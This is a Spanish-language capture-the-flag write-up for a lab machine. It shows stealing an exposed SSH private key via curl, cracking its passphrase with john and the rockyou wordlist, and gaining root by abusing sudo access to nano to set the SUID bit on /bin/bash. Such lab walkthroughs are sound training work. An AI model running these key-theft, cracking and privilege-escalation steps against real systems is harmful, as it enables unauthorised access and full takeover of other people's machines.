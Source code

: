 En el fichero 
```bash
 main.php 
```
 vemos que hace un echo de la id_rsa de joanna. Lo miramos con curl

```bash
curl localhost:52846/main.php
```

copiamos la key en un fichero joanna_rsa en nuestra maquina de ataquante y nos connectamos con ssh

```bash
chmod 600 joanna_rsa
ssh joana@10.10.10.171 -i joanna_rsa
```

Aqui vemos que la id_rsa esta protegida por una contraseña. Crackeamos la llave.

#### Crackeamos la id_rsa con ssh2john {-}

```bash
/usr/share/john/ssh2john.py joanna_rsa > hash
john --wordlists=/usr/share/wordlists/rockyou.txt hash
```

Aqui ya tenemos la contraseña de la id_rsa de joanna y nos podemos conectar

```bash
ssh -i joanna_rsa joanna@10.10.10.171
Enter passphrase
```

y ya podemos leer la flag.

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Aqui vemos que podemos ejecutar nano /opt/priv como el usuario root sin proporcionar contraseña.

```bash
sudo -u root nano /opt/priv

Ctrl+r
Ctrl+x

chmod 4755 /bin/bash

Enter
```

Ya podemos ver que la 
```bash
 /bin/bash 
```
 tiene privilegios SUID y que podemos convertirnos en root para leer la flag

```bash
ls -la /bin/bash
bash -p
whoami
#Output
root
```
